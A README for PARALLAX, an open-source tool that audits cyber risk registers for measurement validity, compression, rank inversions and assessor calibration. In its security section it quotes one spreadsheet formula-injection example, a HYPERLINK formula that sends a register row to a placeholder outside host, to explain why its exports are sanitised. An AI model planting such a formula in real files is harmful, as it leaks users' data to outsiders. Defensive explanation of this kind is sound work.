









<div align="center">

# PARALLAX

**Risk register measurement auditor**

*Find where your risk numbers cannot support the decisions built on them.*

[Methodology](docs/methodology.md) · [Security](SECURITY.md) · [Contributing](CONTRIBUTING.md) · [Changelog](CHANGELOG.md)



</div>

---

Almost every organisation manages cyber risk with a 5×5 matrix. Likelihood one
to five, impact one to five, multiply them, sort by the answer, fund the top of
the list.

The numbers in that matrix are **labels for ranked descriptors**. "Likely" is
the fourth rung of a ladder, not four of anything. And the moment you multiply
two ladders together, sort by the product, and allocate a budget by the
ordering, you have made a series of claims that the ladders cannot support.

PARALLAX does not tell you your register is wrong. It tells you **which of its
conclusions follow from the assessments and which follow from the notation** —
and then picks out the handful of risks where a quantitative answer would
actually change a decision.

```bash
npx parallax audit register.csv
```

---

## The problem, in one picture

A cell of a risk matrix is a label. Behind it sit the risks that were given
that label, and — if your organisation ever wrote down what the levels mean —
the band of annualised loss that label covers.

```
   QUALITATIVE                          MODELLED ANNUALISED LOSS
                          £10k        £100k         £1M          £10M
  ┌───────────┐            │            │            │            │
  │           │      Regulatory penalty ▬▬▬▬▬
  │    16     │      Supplier breach            ▬▬▬▬▬▬▬▬▬▬
  │ High×High │      Bucket exposure      ▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬
  │  5 risks  │      Two with no estimate ░░░░░░░░░░░░░░░░░░░░░░░░
  └───────────┘            │        ╎   │            │            │
                           │     appetite            │            │
```

Five risks, one score. Two of them fall on opposite sides of the
organisation's own appetite threshold, so the score cannot say whether either
is inside it. Two carry no estimate at all — nothing in the register
distinguishes them from each other, and PARALLAX draws them identically
because that is the truth.

Selecting a cell in the app performs that separation as an interaction: the
label lifts away from the loss axis, and the intervals it was covering fan out
behind it at their own depths. That is the parallax the product is named for —
**the separation between two things is only visible when you move relative to
them, and a matrix never moves.**



*The matrix is coloured by what each cell **cannot resolve**, not by its score
— the score is already on the axes. Select a cell and its label separates from
the continuous loss axis on the right.*

---

## What it audits

### 1. Ordinal validity — *is the arithmetic allowed?*

An ordinal scale is determined only up to a **strictly increasing
transformation**. If 1, 2, 3, 4, 5 faithfully labels five ranked descriptors,
then 1, 2, 3, 4, **100** labels them exactly as faithfully: it preserves every
statement the scale is entitled to make, namely the order.

A conclusion drawn from the register is therefore only supported by the
register's own scale definition if it survives *every* such relabelling.

For an aggregation that is non-decreasing in both axes, "A outranks B" survives
exactly when A's likelihood and impact are **both** at least B's — Pareto
dominance. When neither dominates but the score ranks them anyway, PARALLAX
constructs a **witness**: a legal relabelling under which the register's own
formula reverses the pair. It is a counterexample, not an opinion, and the app
shows it.

> On the shipped demo register, <!-- n:ambiguous-share -->46.4%<!-- /n --> of
> orderings — <!-- n:ambiguous-pairs -->2,908<!-- /n --> of
> <!-- n:compared-pairs -->6,261<!-- /n --> ordered pairs — reverse under a
> relabelling that keeps every rung in the same position.

### 2. Range compression — *what does a cell hide?*

Two measurements per cell, **never added together**, because they have
different evidential standing:

| | What it measures | Where it comes from |
|---|---|---|
| **Anchor span** | The factor by which two risks can differ and still score the same | The scale's own anchors. A property of the matrix design. |
| **Estimate span** | The factor by which the cell's members *actually* differ | The register's own estimates. Evidence. |

A third signal is not a span at all: whether the organisation's **appetite
threshold falls inside the cell's band**. When it does, the score cannot answer
the only question being asked of it.

> The narrowest cell on the demo grid (<!-- n:resolution-cell -->L3I2<!-- /n -->)
> still covers a <!-- n:resolution -->13.3×<!-- /n --> range of annualised loss.
> Nowhere on that matrix can two risks differing by less than that be told
> apart — and every other cell is wider.



*Two risks, one score of 25. One is modelled at £8k–£100k a year, the other at
£169k–£8.1M — a factor of 41, invisible to the matrix. The hatched treatment
marks an interval inherited from the cell rather than estimated for the risk.*

### 3. Rank inversion — *does the order survive the model?*

Pairs where the register ranks A above B while the configured model puts B's
annualised loss higher.

- **Confirmed under model** — B's entire interval sits above A's. There is no
  reading of the configured inputs in which the register's order holds.
- **Candidate** — the central figures invert but the intervals overlap. The
  order may be wrong; these inputs cannot settle it.

Where both risks inherit their models from their cells, the inversion is
*structural*: the matrix's own anchors and its own scoring formula disagree
with each other. That is a design defect, it affects every risk in both cells,
and it can be fixed once.

### 4. Assessor calibration — *do comparable risks get comparable levels?*

Never "who is wrong" — nothing in a risk register can answer that, because
there is no ground truth in it to be wrong about.

An assessor's offset is the median, across the peer groups they share with
others, of *their* median level minus the median level of *everyone else in
that group*. The pairing matters: an assessor who happens to own the genuinely
frightening systems should not look miscalibrated for agreeing with everybody
about them.

Significance is a **two-sided permutation test** — shuffle the assessor labels
within each group 4,000 times and read the null distribution off directly. No
distributional assumption at all. A p-value is quoted only above six paired
observations; below that the test has no power and quoting one would be worse
than saying nothing.

### 5. Quantification triage — *which few are worth a week?*

Deliberately **not** the highest-scoring risks. A risk scored 25 that everyone
agrees is intolerable and is already funded does not need a simulation; the
decision is made.

Six components, each normalised to 0–1, each with a published weight:

| Component | Weight |
|---|---|
| Sits near the appetite threshold | 0.25 |
| Ranking not determined by the scales | 0.20 |
| Its cell hides a wide range | 0.20 |
| Wide modelled uncertainty | 0.15 |
| Assessors differ on comparable risks | 0.10 |
| Money is being committed against it | 0.10 |

The priority is their weighted sum and nothing else. The interface renders the
breakdown rather than the total, because a total is a number somebody will
quote and the components are the thing they can argue with.

> The demo register shortlists <!-- n:shortlist -->10<!-- /n --> of
> <!-- n:analysed -->119<!-- /n --> risks — **none of which** are in the
> register's own top ten by score.

### 6. Quantitative modelling — *what does the interval actually look like?*

For shortlisted risks only. Interval-based, Monte Carlo, and modest by design:

```
  λ ~ Lognormal fitted to the frequency 90% interval    (the rate is uncertain)
  N ~ Poisson(λ)                                        (given a rate, years differ)
  loss = Σ Lognormal(magnitude 90% interval)            (independent, added)
```

The rate is drawn per iteration rather than fixed at a midpoint. Fixing it
would discard the largest source of uncertainty in most cyber risks — nobody
knows the rate — and would produce a distribution far narrower than the
analyst's actual state of knowledge. A narrow distribution is the failure mode
this product exists to object to, so it would be a strange thing to introduce
in its own simulation.

Outputs: percentiles, a loss exceedance curve, and P(loss > appetite). Every
one of them inherits the uncertainty of its inputs, and the interface says so
on the same screen.



*The inputs are editable, because a reader who cannot change an assumption
cannot test it — and a simulation nobody can test is a number with a chart
attached.*

---

## What it refuses to do

- **It does not determine the true risk.** It determines whether the
  measurement can support the conclusion being drawn from it. The words "true
  risk" appear nowhere in the output, and a test asserts that.
- **It is not a replacement for FAIR**, or for any organisation's risk
  methodology. It is a measurement audit and a quantification triage —
  deliberately a much smaller thing.
- **It does not invent a difference between two risks the register cannot
  distinguish.** Two un-estimated risks in one cell get identical models and
  are drawn identically, on purpose.
- **It does not model** correlation between risks, tail dependence, control
  effectiveness over time, or the cost of treatment.
- **It cannot tell you whether a level was assessed well.** Nothing can.

---

## The rest of it

<table>
<tr>
<td width="50%"></td>
<td width="50%"></td>
</tr>
<tr>
<td><b>Overview</b> — opens with the single most consequential thing the audit
found, written out, and only then the counts that support it. Every count has a
denominator.</td>
<td><b>Decision</b> — the page a CISO reads. Five things that could be wrong
with a decision taken from this register, ordered by what being wrong would
cost, each linking to the working.</td>
</tr>
<tr>
<td></td>
<td></td>
</tr>
<tr>
<td><b>Measurement audit</b> — what the register does, what the scale actually
represents, and why the gap matters. Never a bare "INVALID".</td>
<td><b>Quantification triage</b>, in the light theme — specified independently
rather than inverted.</td>
</tr>
</table>

<div align="center">

<p><i>Desktop is the analyst's tool, but the matrix, the separation and every
finding survive a phone. The state glyphs — ✓ ? ≠ ! ∗ · — are why the cells are
still readable without colour.</i></p>
</div>

---

## Install and run

Node 24 or later. The CLI runs the TypeScript sources directly under Node's
native type stripping — no build step and no dependencies.

```bash
git clone https://github.com/het-P301204/parallax.git
cd parallax
npm install
```

### The app

```bash
npm run dev
```

Open the address it prints, click **Load the sample register**, and the whole
audit runs in about a second. Nothing is uploaded.

### The command line

```bash
node bin/parallax.ts audit register.csv
node bin/parallax.ts measurement register.csv
node bin/parallax.ts compression register.csv
node bin/parallax.ts inversions register.csv
node bin/parallax.ts calibration register.csv
node bin/parallax.ts shortlist register.csv
node bin/parallax.ts export register.csv full-report --out report.json
```

Options: `--size 3|4|5`, `--kind ordinal|interval|ratio`,
`--aggregation product|sum|max`, `--appetite N`, `--currency C`,
`--fail-on none|inversions|any`, `--out PATH`, `--json`, `--quiet`.

Exit codes make it usable in a pipeline: **0** clean, **2** something reached
the failure threshold, **1** the audit could not run.

```
$ node bin/parallax.ts audit fixtures/demo-register.csv

PARALLAX 0.1.0 — demo-register.csv

  Rows imported                 126
  Analysed                      119  (7 could not be placed)
  Cells occupied                17 of 25
  Largest tie group             19 risks share one score
  Matrix resolving power        13.3x  (narrowest cell: L3I2)

  Ambiguous pairs               2,908 of 6,261
  Inversion candidates          1,458  (92 confirmed under the model)
  Compressed cells              12 of 17
  Calibration findings          27
  Quantification shortlist      10
  Data quality findings         11

  Measurement confidence — three numbers, deliberately not averaged
    Order determinacy           54%
    Estimate coverage           55%
    Data completeness           94%
    Limiting factor: the order of the register is largely not determined by its own scales.
```

---

## Importing your register

CSV or JSON. Column mapping is **always shown** before anything is analysed,
with a live preview of the values each binding would read, because the single
most expensive failure mode of a tool like this is silently reading the wrong
column as "likelihood" and then producing twelve pages of confident analysis
of it.

| Field | Required | Used for |
|---|---|---|
| Likelihood, Impact | ✔ | Everything |
| Risk ID, Title | recommended | Identity across exports |
| Category, Business unit, Assessor | recommended | Calibration peer groups |
| Stated score | optional | Compared with the configured formula; never corrected |
| Treatment | recommended | The decision-consequence triage component |
| Frequency min/max, Loss min/max | optional | **Everything quantitative** |

Levels may be numbers *or* the scale's own labels — plenty of registers store
"High" in the likelihood column and the number nowhere, and refusing them would
mean the audit could not run on exactly the registers that most need it.

Nothing is dropped silently. A register of 126 rows with 7 unusable ones is
never quietly a register of 119: both numbers are on the overview, every
finding says which rows it could not see, and an excluded row still appears in
the table with a reason against it.

---

## Privacy and security

**Your register never leaves the tab.** Not as a design preference — as an
enforced policy:

```
connect-src 'none'
```

That is in the document head. The page is not permitted to make a network
request *even if a future change tried to*, and CI scans the built bundle for
network APIs. There is no telemetry, no analytics, and no server-side state.
The only thing written to storage is the string `"dark"` or `"light"`.

Exports are **formula-injection safe**: a field beginning `=`, `+`, `-`, `@`,
tab or carriage return is neutralised before it reaches a CSV, because
`=HYPERLINK("https://x/?"&A1,"ok")` in a risk title becomes, on export, a click
that sends a row of your register to a stranger. See [SECURITY.md](SECURITY.md).

---

## Design

Dark graphite, one blue for analysis, one cyan for quantitative information,
and four semantic hues that carry a finding's state and nothing else. Inter for
UI, Space Grotesk for display, IBM Plex Mono for every number.

One constraint is worth stating because it shaped the whole system. Requiring
every hue to clear WCAG AA against **both** a near-black and a near-white
surface stack confines all of them to a narrow band of luminance — which is
exactly the condition under which a reader with deuteranopia sees green and
amber as the same colour. The closest pair in this palette is about 1.04:1, and
no five-hue palette meeting the contrast requirement does materially better.

So colour is never the only channel. Every state also carries a glyph
(`✓ ? ≠ ! ∗ ·`), the two amber states are separated by pattern, and
`insufficient-data` is hatched everywhere it appears.
`src/ui/tokens.test.ts` re-derives every contrast ratio from the CSS and fails
the build if one drops below AA — or if two luminance-close states are ever
given the same glyph.

---

## Architecture

```
Import  →  Validate  →  Matrix  →  Measurement audit  →  Compression
        →  Inversion  →  Calibration  →  Triage  →  Simulation  →  Report
```

```
src/engine/    pure TypeScript, no DOM, no network, shared with the CLI
src/ui/        design tokens, primitives, charts, the parallax stage
src/views/     one file per view; none of them does arithmetic
bin/           the CLI, running the engine sources directly
scripts/       generators for the demo register, fixtures and error pages
```

The engine boundary is enforced by lint: `src/engine` may not reference
`document`, `window`, `localStorage`, `fetch`, or `Math.random`. That last one
matters — every simulated number must be reproducible from a seed, or the
percentiles it prints are not numbers anyone can check.

Every analysis is a pure function from the types in `src/engine/types.ts` to
the types in `src/engine/types.ts`. No view recomputes an analysis, and no view
holds arithmetic beyond formatting.

---

## Every finding answers five questions

A finding is not allowed on screen until it can answer all of them:

**What** did you find · **Why** does it follow · **What assumption** does it
rest on · **What evidence** was it computed from · **What should I do next**

The `assumption` field is given its own treatment rather than being a fourth
paragraph, because it is the field that decides how much the reader should
believe the rest. It is never omitted, and the shortest honest answer —
`None.` — is allowed to be exactly that short.

---

## Tests

```bash
npm test        # 191 tests
npm run verify  # lint, typecheck, test, build, and every generated artifact
```

The suite is not about coverage. It asserts the claims:

- Every **witness relabelling** is strictly increasing on both axes and
  reverses the pair under the register's own formula — checked exhaustively
  across every crossing cell pair, for all three arithmetic aggregations.
- The **simulation is reproducible** from its seed, its percentiles are
  ordered, its mean sits above its median, and its lognormal fit reproduces the
  supplied bounds as the 5th and 95th percentiles.
- **Exports are byte-identical** across two runs of the same file and carry no
  timestamp, so a diff between quarters is a diff of the register.
- **Formula injection** is neutralised for every trigger character, in every
  CSV export, including one smuggled in through a risk title.
- The **palette clears AA** in both themes against every surface, and any two
  luminance-close states carry different glyphs.
- The product **never claims a true risk**, and the calibration output never
  accuses an assessor of being wrong.

Two of these tests found real bugs while being written, and one found a real
accessibility defect. They are described in [CHANGELOG.md](CHANGELOG.md).

---

## Limitations

Worth reading before quoting any of this at a committee.

- **The anchors are the whole quantitative edge.** A register whose scales
  carry no frequency or loss bands gets an honest `insufficient-data` on every
  quantitative view rather than a guess. Adding them is usually a half-day
  workshop, and it is the single change that unlocks the most of this audit.
- **The triage weights are a judgement**, not an empirical result. They are the
  author's ranking of how often each factor changes a decision. They are listed
  in full and are the first thing to argue with.
- **A lognormal has a lighter tail** than the loss distributions seen in
  practice, so the extreme percentiles are, if anything, optimistic.
- **No correlation is modelled.** A simultaneous event affecting several risks
  at once would produce a heavier joint tail than the sum of these models.
- **The calibration test loses power on degenerate groups.** If every risk in a
  peer group received the same level from each assessor, a permuted split lands
  on the same two medians about half the time however many rows there are. The
  product reports `ambiguous` — which is correct, because a group with no
  internal variation contains no evidence that the difference is about the
  assessor rather than about the group.
- **Peer groups are categories.** Where a category is a catch-all, a wide
  spread says more about the taxonomy than about the scoring, and the finding
  should be read as a prompt rather than a result.

---

## Licence

Apache 2.0. See [LICENSE](LICENSE).

The demo register is synthetic. No real organisation, person, business unit or
estimate appears in it.
